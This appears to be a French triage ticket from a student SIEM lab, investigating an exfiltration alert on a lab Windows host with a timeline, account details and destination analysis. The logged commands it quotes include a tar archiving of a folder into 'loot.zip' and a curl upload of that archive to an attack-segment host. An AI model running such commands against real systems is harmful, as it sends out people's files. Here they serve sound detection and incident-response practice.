

repository: Drien95/SIEM_PROJECT · page: triage/ticket-01-exfiltration-100282/index.html · generator: mkdocs

# Ticket de triage 01 : chaîne d'exfiltration (alerte 100282, niveau 14)

> Exercice de triage, 2026-10-29. L'analyste reçoit l'alerte **sans connaître le scénario**
> (scénario 11, [writeup 22](../writeup/22-scenario-collection-exfiltration.md)) et la qualifie
> à partir des seules données du SIEM. Ce qui suit est ce que le SIEM permettait d'établir, pas
> ce que nous savions par ailleurs.

## 1. Alerte

| Champ | Valeur |
|---|---|
| Règle | **100282**, niveau 14 : « Chaîne d'exfiltration : archive puis envoi depuis DESKTOP-A2AMF2E en moins de 5 min » |
| Date | 2026-10-29 15:13:11.887 UTC |
| Poste | `DESKTOP-A2AMF2E` (agent `SIEM-Win11`, 10.10.10.101) |
| MITRE | T1560.001 Archive via Utility, T1048.003 Exfiltration Over Unencrypted Non-C2 Protocol |

## 2. Investigation

Pivot : toutes les alertes du poste, plus tout ce qui mentionne l'IP destination, de 15:08 à
15:18 UTC (`alerts.json`, script Python dans le [writeup 25](../writeup/25-dashboard-couverture-mitre.md)).

### Chronologie

| Heure (UTC) | Règle (niveau) | Événement |
|---|---|---|
| 15:13:10.070 | 60106 (3) | ouverture de session réussie |
| 15:13:11.827 | 67027 (3) | `HOSTNAME.EXE` : vérification du nom de la machine (T1082, déduit) |
| 15:13:11.838 | **100280** (8) | `tar.exe -a -c -f C:\Users\Public\loot.zip -C C:\Users\Public docs-lab` |
| 15:13:11.887 | **100282** (14) | `curl.exe -s --max-time 5 -F f=@C:\Users\Public\loot.zip http://10.10.20.10:8080/` |

### Qui

- Compte : `DESKTOP-A2AMF2E\analyste` (compte local, administrateur du poste).
- Processus parent : `powershell.exe`.
- Niveau d'intégrité : **High**, donc PowerShell lancé en administrateur (élévation UAC).
- Répertoire courant : `C:\Windows\system32\` (défaut d'une console administrateur).

### Quoi

- Le dossier `C:\Users\Public\docs-lab` a été archivé en `loot.zip`.
- Son contenu n'est **pas** connu du SIEM : pas de collecte de création de fichier (Sysmon
  EID 11), pas de FIM sur ce dossier.
- Empreintes : `tar.exe` SHA256 `A3AC62FD…6416A8E`, `curl.exe` SHA256 `73D24149…DAFAB805`.
  Ce sont *a priori* les binaires Microsoft d'origine (chemin System32) : à confirmer par
  réputation (VirusTotal), non fait.

### Où

- Destination : `http://10.10.20.10:8080/`, en HTTP en clair, sur un port non standard.
- `10.10.20.10` appartient au **segment d'attaque** (VMnet11), pas à Internet ni au LAN.
- Dans la même fenêtre, cette IP apparaît aussi en source de paquets bloqués vers Internet
  (100302, NTP/UDP 123) : la machine est active et n'a pas d'accès sortant.
